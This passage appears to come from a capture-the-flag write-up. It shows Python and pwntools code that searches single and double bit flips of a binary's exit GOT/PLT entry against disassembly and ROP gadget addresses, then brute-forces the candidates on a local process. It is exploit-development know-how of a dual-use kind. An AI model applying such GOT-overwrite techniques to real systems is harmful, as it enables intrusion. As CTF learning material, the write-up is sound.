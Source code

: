 ```python
s1 = os.popen('objdump -M intel -d ' + binary.path)
s2 = os.popen('ropper --nocolor --file ' + binary.path)
addresses = s1.read() + s2.read()
pairs = []
for i in range(16):
    if hex(exit_plt ^ (1 << i))[2:] in addresses:
        print(i,-1,hex(exit_plt ^ (1 << i)))
        pairs.append((i,-1))
    for j in range(i+1,16):
        if hex(exit_plt ^ (1 << i) ^ (1 << j))[2:] in addresses:
            print(i,j,hex(exit_plt ^ (1 << i) ^ (1 << j)))
            pairs.append((i,j))
```

This was the initial program to check every single and double flip against a list of target locations provided by disassembly and gadgets.  There's only 26 possible single and double flips, at this point I figured I could just quickly rule out those that would not work and find the magic bits--well, it was taking too long, so...

```python
os.environ['NUMBER_OF_FLIPS'] = '2'
candidates = []
context.log_level='WARN'
for i in pairs:
    p = process(binary.path)
    print('testing',i[0],i[1])
    try:
        p.recvuntil('uint32): ',timeout=0.1)
        p.sendline(hex(exit_got + i[0] // 8)[2:])
        p.recvuntil('7): ',timeout=0.1)
        p.sendline(str(i[0] % 8))
        p.recvuntil('uint32): ',timeout=0.1)
        if i[1] == -1:
            p.sendline(hex(debug + i[1] // 8)[2:])
        else:
            p.sendline(hex(exit_got + i[1] // 8)[2:])
        p.recvuntil('7): ',timeout=0.1)
        p.sendline(str(i[1] % 8))
        _ = p.recvuntil('uint32): ',timeout=0.1)
        p.close()
        if _.find(b'uint32): ') != -1:
            candidates.append(i)
    except:
        continue

print()
for i in candidates:
    print('bits',i[0],i[1],end=' ')
    if i[1] == -1:
        print(hex(exit_plt ^ (1 << i[0])))
    else:
        print(hex(exit_plt ^ (1 << i[0]) ^ (1 << i[1])))

os.remove('core')
```
